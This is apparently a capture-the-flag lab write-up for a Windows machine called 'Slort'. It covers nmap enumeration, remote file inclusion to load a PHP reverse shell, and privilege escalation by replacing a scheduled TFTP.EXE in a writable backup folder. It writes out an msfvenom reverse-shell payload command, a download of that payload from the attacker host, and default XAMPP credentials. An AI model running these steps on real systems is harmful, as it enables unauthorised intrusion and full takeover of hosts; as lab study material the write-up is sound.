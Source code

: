 # Slort
### Enumeration
```
# Nmap 7.92 scan initiated Mon Apr 25 18:51:56 2022 as: nmap -sCV -v -oA nmap/tcp_1000 192.168.198.53
Nmap scan report for ip-192-168-198-53.eu-west-1.compute.internal (192.168.198.53)
Host is up (0.014s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings:
|   NULL:
|_    Host '192.168.49.198' is not allowed to connect to this MariaDB server
4443/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://ip-192-168-198-53.eu-west-1.compute.internal:4443/dashboard/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
8080/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://ip-192-168-198-53.eu-west-1.compute.internal:8080/dashboard/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=4/25%Time=6266EDD1%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.198'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-04-25T18:52:11
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 25 18:52:49 2022 -- 1 IP address (1 host up) scanned in 53.50 seconds
```

##### FTP: 21
No anonymous/guest login allowed. It's FileZilla 0.9.41 beta - might be an exploit.

##### SMB: 445
No anonymous/guest login allowed.

##### 4443 and 8080
Both appear to be the same webserver. I ran gobuster and found `/site`:

```
$ cat gobuster.out | grep -v 403
/img                  (Status: 301) [Size: 345] [--> http://192.168.198.53:8080/img/]
/site                 (Status: 301) [Size: 346] [--> http://192.168.198.53:8080/site/]
/examples             (Status: 503) [Size: 1060]
/dashboard            (Status: 301) [Size: 351] [--> http://192.168.198.53:8080/dashboard/]
/IMG                  (Status: 301) [Size: 345] [--> http://192.168.198.53:8080/IMG/]
/Site                 (Status: 301) [Size: 346] [--> http://192.168.198.53:8080/Site/]
/Img                  (Status: 301) [Size: 345] [--> http://192.168.198.53:8080/Img/]
/Dashboard            (Status: 301) [Size: 351] [--> http://192.168.198.53:8080/Dashboard/]
/xampp                (Status: 301) [Size: 347] [--> http://192.168.198.53:8080/xampp/]
/SITE                 (Status: 301) [Size: 346] [--> http://192.168.198.53:8080/SITE/]
```

### Foothold

Visiting this URL, we get redirected to `http://192.168.198.53:4443/site/index.php?page=main.php`. I spun up a python webserver and tried to do RFI with `http://192.168.198.53:4443/site/index.php?page=http://192.168.49.198/test.php`, and saw a request to the python server. I copied a [PHP reverse shell](https://github.com/ivan-sincek/php-reverse-shell/) into the web root and set it to callback on port 4443. After starting a listener and refreshing the page, I got a shell as `slort\rupert`. We get the local flag from `rupert`'s desktop.

### Privilege Escalation
I found the following in `C:\xampp\passwords.txt`:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser
   Password: wampp

4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf

   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so

   Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

None of the passwords worked for either `rupert` or `administrator`. There was a `C:\Backup` folder:

```
Directory: C:\backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/12/2020   7:45 AM          11304 backup.txt
-a----         6/12/2020   7:45 AM             73 info.txt
-a----         6/23/2020   7:49 PM          73802 TFTP.EXE
```

Looking at `info.txt`, we find:

```
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

I wondered if I had any permissions on this folder and could replace the executable with a reverse shell payload. I ran `whoami /groups`

```
GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Then I used the below Powershell function to get permissions for the backup folder:

```powershell
function Get-Permissions ($folder) {
  (get-acl $folder).access | select `
		@{Label="Identity";Expression={$_.IdentityReference}}, `
		@{Label="Right";Expression={$_.FileSystemRights}}, `
		@{Label="Access";Expression={$_.AccessControlType}}, `
		@{Label="Inherited";Expression={$_.IsInherited}}, `
		@{Label="Inheritance Flags";Expression={$_.InheritanceFlags}}, `
		@{Label="Propagation Flags";Expression={$_.PropagationFlags}} | ft -auto
		}
```

```
get-permissions .

Identity                                               Right Access Inherited               Inheritance Flags Propagati
                                                                                                               on Flags
--------                                               ----- ------ ---------               ----------------- ---------
BUILTIN\Users                                    FullControl  Allow     False ContainerInherit, ObjectInherit      None
BUILTIN\Administrators                           FullControl  Allow      True ContainerInherit, ObjectInherit      None
NT AUTHORITY\SYSTEM                              FullControl  Allow      True ContainerInherit, ObjectInherit      None
BUILTIN\Users                    ReadAndExecute, Synchronize  Allow      True ContainerInherit, ObjectInherit      None
NT AUTHORITY\Authenticated Users         Modify, Synchronize  Allow      True                            None      None
NT AUTHORITY\Authenticated Users                  -536805376  Allow      True ContainerInherit, ObjectInherit ...itOnly
```

So we can modify the folder, and therefore replace `TFTP.exe`. Let's generate a payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.198 LPORT=4443  --platform windows -a x64 -f exe EXITFUNC=thread -o www/TFTP.exe
```

We weren't able to directly overwrite the executable, so I got the payload on the box using:

```powershell
invoke-webrequest -uri http://192.168.49.198/TFTP.exe -outfile tmp.exe
```

We also can't `mv tmp.exe tftp.exe` since windows doesn't let move to a path that already exists. So we `rm tftp.exe` (I had to wait for the scheduled service to stop, otherwise I got told the file was in use), then `mv tmp.exe tftp.exe`. Make sure you have a listener running, and you'll soon get a shell as `slort\administrator`!
